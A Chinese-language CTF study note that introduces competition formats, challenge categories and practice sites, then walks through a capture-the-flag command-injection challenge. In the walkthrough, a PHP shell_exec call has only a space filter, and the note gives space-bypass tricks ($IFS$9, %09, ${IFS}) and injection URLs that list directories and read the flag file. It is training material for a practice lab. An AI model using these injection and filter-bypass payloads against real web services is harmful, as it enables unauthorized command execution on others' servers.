



# CTF比赛

—————————————————————————————————————————————————————————————————————————————————————————————————————————————

### 一、CTF简介

```
	CTF（Capture The Flag）中文一般译作夺旗赛，在网络安全领域中指的是网络安全技术人员之间进行技术竞技的一种比赛形式。CTF起源于1996年DEFCON全球黑客大会，以代替之前黑客们通过互相发起真实攻击进行技术比拼的方式。发展至今，已经成为全球范围网络安全圈流行的竞赛形式，2013年全球举办了超过五十场国际性CTF赛事。而DEFCON作为CTF赛制的发源地，DEFCON CTF也成为了目前全球最高技术水平和影响力的CTF竞赛，类似于CTF赛场中的“世界杯” 。
```

### 二、CTF竞赛模式

#### 1、解题模式（Jeopardy）

```
	在解题模式CTF赛制中，参赛队伍可以通过互联网或者现场网络参与，这种模式的CTF竞赛与ACM编程竞赛、信息学奥赛比较类似，以解决网络安全技术挑战题目的分值和时间来排名，通常用于在线选拔赛。题目主要包含逆向、漏洞挖掘与利用、Web渗透、密码、取证、隐写、安全编程等类别。
```

#### 2、攻防模式（Attack-Defense）

```
	在攻防模式CTF赛制中，参赛队伍在网络空间互相进行攻击和防守，挖掘网络服务漏洞并攻击对手服务来得分，修补自身服务漏洞进行防御来避免丢分。攻防模式CTF赛制可以实时通过得分反映出比赛情况，最终也以得分直接分出胜负，是一种竞争激烈，具有很强观赏性和高度透明性的网络安全赛制。在这种赛制中，不仅仅是比参赛队员的智力和技术，也比体力（因为比赛一般都会持续48小时及以上），同时也比团队之间的分工配合与合作。
```

#### 3、混合模式（Mix）

```
	结合了解题模式与攻防模式的CTF赛制，比如参赛队伍通过解题可以获取一些初始分数，然后通过攻防对抗进行得分增减的零和游戏，最终以得分高低分出胜负。采用混合模式CTF赛制的典型代表如ICTF国际CTF竞赛。
```

### 三、CTF各大题型简介



#### 1、WEB（web类）

```
	WEB应用在今天越来越广泛，也是CTF夺旗竞赛中的主要题型，题目涉及到常见的Web漏洞，诸如注入、XSS、文件包含、代码审计、上传等漏洞。这些题目都不是简单的注入、上传题目，至少会有一层的安全过滤，需要选手想办法绕过。且Web题目是国内比较多也是大家比较喜欢的题目。因为大多数人开始安全都是从web日站开始的。
```

#### 2、CRYPTO（密码学）

```
	全称Cryptography。题目考察各种加解密技术，包括古典加密技术、现代加密技术甚至出题者自创加密技术。实验吧“角斗场”中，这样的题目汇集的最多。这部分主要考查参赛选手密码学相关知识点。
```

#### 3、MISC（安全杂项）

```
    全称Miscellaneous。题目涉及流量分析、电子取证、人肉搜索、数据分析、大数据统计等等，覆盖面比较广。我们平时看到的社工类题目；给你一个流量包让你分析的题目；取证分析题目，都属于这类题目。主要考查参赛选手的各种基础综合知识，考察范围比较广。
```

#### 4、REVERSE（逆向）

```
	全称reverse。题目涉及到软件逆向、破解技术等，要求有较强的反汇编、反编译扎实功底。需要掌握汇编，堆栈、寄存器方面的知识。有好的逻辑思维能力。主要考查参赛选手的逆向分析能力。此类题目也是线下比赛的考察重点。
```

#### 5、STEGA（隐写）

```
	全称Steganography。隐写术是我开始接触CTF觉得比较神奇的一类，知道这个东西的时候感觉好神奇啊，黑客们真是聪明。题目的Flag会隐藏到图片、音频、视频等各类数据载体中供参赛选手获取。载体就是图片、音频、视频等，可能是修改了这些载体来隐藏flag，也可能将flag隐藏在这些载体的二进制空白位置。有时候需要你侦探精神足够的强，才能发现。此类题目主要考查参赛选手的对各种隐写工具、隐写算法的熟悉程度。实验吧“角斗场”的隐写题目在我看来是比较全的，以上说到的都有涵盖。新手盆友们可以去了解下。
```

#### 6、PPC（编程类）

```
	全称Professionally Program Coder。题目涉及到程序编写、编程算法实现。算法的逆向编写，批量处理等，有时候用编程去处理问题，会方便的多。当然PPC相比ACM来说，还是较为容易的。至于编程语言嘛，推荐使用Python来尝试。这部分主要考察选手的快速编程能力。
```

#### 7、PWN（溢出）

```
	PWN在黑客俚语中代表着攻破，取得权限，在CTF比赛中它代表着溢出类的题目，其中常见类型溢出漏洞有栈溢出、堆溢出。在CTF比赛中，线上比赛会有，但是比例不会太重，进入线下比赛，逆向和溢出则是战队实力的关键。主要考察参数选手漏洞挖掘和利用能力。
```

### 四、刷题网站

```
BUUCTF
?https://buuoj.cn/

攻防世界
?https://adworld.xctf.org.cn

春秋
?https://www.ichunqiu.com/battalion

jarvisoj
?https://www.jarvisoj.com/challenges

ctf秀
?https://ctf.show/challenges
?https://wp.ctf.show/

ctfhub
?https://www.ctfhub.com/#/index

bugku
?https://ctf.bugku.com/
```

### 五、CTF刷题网站题目学习笔记

#### 1、[SWPUCTF 2021 新生赛]babyrce(空格绕过 RCE)

**此时开启靶场后的网址端口为：**

```
http://node5.anna.nssctf.cn:28950
```

**题目标签**

```
空格绕过 RCE SQL注入 Cookie注入 Linux命令 目录穿越 源码泄漏 HTTP协议 正则绕过 WAF绕过 代码审计 PHP
```

```
开启靶场后可以看到题目为

<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！

可以看到代码中写到当cookie值等于admin=1时 include语句会引用' ../next.php '该指定位置的文件，把该位置的文件页面回显给用户

打开火狐浏览器F12的hackbar，Load URL->把Cookies打勾，就会在最下方出现注入框->填写admin=1即可
```






```
 <?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> rasalghul.php

此时得到页面返回了 rasalghul.php 这个信息，就是让我们去访问看看

http://node5.anna.nssctf.cn:28950/rasalghul.php
```

```
跳转到新的页面，这个源码也很直观

 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> 

isset — 检测变量是否已设置并且非 NULL，监测url是否为空

GET请求参数

？表示传入参数

$是定义变量

preg_match就是匹配的意思，

preg_match("/ /", $ip))

这句话的意思就是匹配空格(因为两个反斜杠中间有个空格)

【$string = "football";
if (preg_match('/foo/', $string)) {
// 匹配正确
}

它的格式差不多就是 preg_match("/要匹配的字符/"),$输入的参数(变量)】

这句话的意思差不多就是在输入的参数中去查找看是否有匹配该字符的地方

shell_exec()函数通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。也就是说当匹配到空格时就无法执行命令
所以这里我们就需要绕过空格

回顾-绕过空格的方式：
%09（tab键）、%20（空格）、$IFS$9、<>（是大于号小于号，不是菱形）、${IFS}
```

```
http://node5.anna.nssctf.cn:28950/rasalghul.php?url=ls

查看当前目录发现没有flag文件

 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> index.php rasalghul.php 

因为空格被绕过了，所以这里我们使用$IFS$9

一级一级往上查

http://node5.anna.nssctf.cn:28950/rasalghul.php?url=ls$IFS$9../../../

最后发现是在根目录上，所以我们直接这么写，最后位置的一个' / '就代表了根目录，这里也涉及到了一部分的Linux命令

http://node5.anna.nssctf.cn:28950/rasalghul.php?url=ls$IFS$9/

 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> bin boot dev etc flllllaaaaaaggggggg home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 

猜测藏有flag信息的文件在flllllaaaaaaggggggg，查看试试

http://node5.anna.nssctf.cn:28950/rasalghul.php?url=cat$IFS$9/flllllaaaaaaggggggg

（flllllaaaaaaggggggg前面的反斜杠' / '不要忘，因为它是处在根目录下的）

 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> NSSCTF{f6afdba0-3ffa-4a5e-9c06-3dad01127ade} 

成功拿到flag为 NSSCTF{f6afdba0-3ffa-4a5e-9c06-3dad01127ade} 
```


